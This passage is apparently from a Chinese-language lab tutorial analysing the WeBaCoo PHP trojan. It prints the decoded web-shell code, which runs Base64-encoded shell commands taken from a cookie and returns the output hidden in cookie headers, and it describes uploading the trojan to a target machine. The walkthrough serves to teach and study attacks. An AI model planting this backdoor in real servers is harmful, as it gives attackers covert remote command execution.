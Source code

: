 ![图片描述](../imgs/1481618755418.png-wm.png)

引用 `Base64` 模块进行解密，得到攻击者的最初意图代码。由解密出来的代码，可以明显的看出，代码第一步先判断 Cookie 是否设置。这里我们再回顾下 WeBaCoo 是什么原理介绍部分。其中有如下这一句话，文档中指出了 Shell 命令编码后，隐藏在 Cookie 头中：

> WeBaCoo 创建 PHP 木马程序，使用 HTTP 响应头传送命令结果，Shell 命令会由 Base64 编码后，隐藏在 Cookie 头中。

而代码中 `2>&1` 的意思是：

> 对于 & 1 更准确的说应该是文件描述符 1，而 1 一般代表的就是 STDOUT_FILENO，实际上这个操作就是一个 dup2（2） 调用。他标准输出到 all_result，然后复制标准输出到文件描述符 2（STDERR_FILENO），其后果就是文件描述符1和2指向同一个文件表项，也可以说错误的输出被合并了。

```
# 函数 isset() 用于检测变量是否设置，这里的作用是 Cookie 是否设置
if(isset($_COOKIE['cm'])){

    # 启动
    ob_start();
    
    # 使用 base64_decode 对 shell 命令进行解码
    system(base64_decode($_COOKIE['cm']).' 2>&1');
    
    # 设置 cookie 参数，并使用 base64_encode 进行编码
    setcookie($_COOKIE['cn'],$_COOKIE['cp'].base64_encode(ob_get_contents()).$_COOKIE['cp']);
    
    # 关闭
    ob_end_clean();
}
```


### 4.3 上传到目标靶机

通过上面的木马源码分析，我们了解到 WeBaCoo 创建 PHP 木马文件之后，对木马文件使用 Base64 加密，并使用 HTTP 响应头传送命令结果，Shell 命令会由 Base64 编码，隐藏在 Cookie 头中。一般情况下，在生成木马文件后，会将木马程序上传到目标主机，进而感染目标主机，建立会话通道。输入如下命令，将木马上传：

